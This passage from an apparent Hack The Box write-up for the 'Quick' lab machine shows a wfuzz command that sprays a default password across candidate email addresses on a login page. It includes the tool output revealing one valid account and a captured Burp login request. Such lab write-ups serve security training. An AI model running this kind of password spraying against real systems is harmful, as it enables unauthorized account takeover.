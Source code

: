 ```text
zweilos@kali:~/htb/quick$ wfuzz -w users -c -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$'

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************
Target: http://quick.htb:9001/login.php
Total requests: 7
===================================================================
ID           Response   Lines    Word     Chars       Payload                                
===================================================================

000000003:   200        0 L      2 W      80 Ch       "james@lazycoop.co.cn"                 
000000001:   200        0 L      2 W      80 Ch       "tim@Qconsulting.co.uk"                
000000002:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"                     
000000004:   200        0 L      2 W      80 Ch       "roy@DarkWng.com"                      
000000005:   200        0 L      2 W      80 Ch       "jane@quick.htb"                       
000000006:   200        0 L      2 W      80 Ch       "mike@quick.htb"                       
000000007:   200        0 L      2 W      80 Ch       "john@quick.htb"                       

Total time: 0.105150
Processed Requests: 7
Filtered Requests: 0
Requests/sec.: 66.57097
```

I loaded my potential email address list into wfuzz and used it to username-spray the website.  My hunch seemed to be right! That 302 HTTP response above meant I had found a successful login for `elisa@wink.co.uk`! _I'm actually surprised there was only one user that used the default password provided to log in! :P_

```http
POST /login.php HTTP/1.1
Host: quick.htb:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://quick.htb:9001/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Connection: close
Cookie: PHPSESSID=nl56u8c71du29c6v8rafi3h23k
Upgrade-Insecure-Requests: 1
DNT: 1

email=elisa%40wink.co.uk&password=Quick4cc3%24%24
```

I made sure to capture the login credentials in Burp so I could easily resend them any time I needed.
